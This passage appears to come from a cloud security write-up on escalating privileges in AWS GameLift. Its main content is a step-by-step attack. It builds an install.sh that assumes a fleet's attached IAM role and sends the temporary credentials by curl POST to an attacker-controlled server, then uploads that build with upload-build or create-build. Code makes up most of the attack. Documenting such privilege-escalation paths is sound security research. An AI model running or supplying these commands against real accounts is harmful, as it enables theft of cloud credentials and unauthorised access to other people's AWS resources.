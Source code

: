 Just like with EC2 instance, you can attach a role to a fleet during creation using the `iam:PassRole` action. Fleets do not have a metadata service like EC2 or ECS. To assume the attached role, you need to perform a `sts:AssumeRole` action on it (see [docs](https://docs.aws.amazon.com/gamelift/latest/developerguide/gamelift-sdk-server-resources.html)).

To steal the temporary credentials of an attached Gamelift role, an attacker just needs to upload a build that will assume the role and exfiltrate, for example via `curl`, to an attacker-controlled server. The malicious build does not have to contain any working game binaries or dependencies since an installation script (`install.sh` for Linux or `install.bat` for Windows-based machines) runs before any binary file validation (see [docs](https://docs.aws.amazon.com/gamelift/latest/developerguide/gamelift-build-cli-uploading.html)).

Find the below commands to create a build directory with install.sh script. Set AWS_ROLE_ARN with a role to assume and EXFIL_URL with the address of your server:

```bash
mkdir build                                                       
export AWS_ROLE_ARN=arn:aws:iam::123456789012:role/EXAMPLE_ROLE
export EXFIL_URL=http://your.server/  
echo "aws sts assume-role --role-arn $AWS_ROLE_ARN --role-session-name PrivEscExample | curl -X POST --data-binary @- $EXFIL_URL" > ./build/install.sh
```

Then upload a created `build` to the AWS account. Use either `upload-build` or `create-build` depending on permissions you have.

Example of `upload-build` command:

```bash
aws gamelift upload-build \
    --name PrivEscExploit \
    --build-version 0.0.1 \
    --build-root ./build --operating-system AMAZON_LINUX_2
```

`create-build` works differently. It returns temporary credentials that you need to use to upload the zip archive of `build` directory to a Gamelift bucket. Use the following commands:

```bash
aws gamelift create-build \
    --name PrivEscExploit \
    --build-version 0.0.1 \
    --operating-system AMAZON_LINUX_2

# set obtained temporary credentials as env variables 
export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_SESSION_TOKEN=

# zip your install.sh file
zip build.zip ./build/install.sh

# upload zip to the bucket key from create-build command output 
aws s3 cp ./build.zip s3://prod-gamescale-builds-us-east-1/123456789012/build-1111aaaa-22bb-33cc-44dd-5555eeee66ff
```
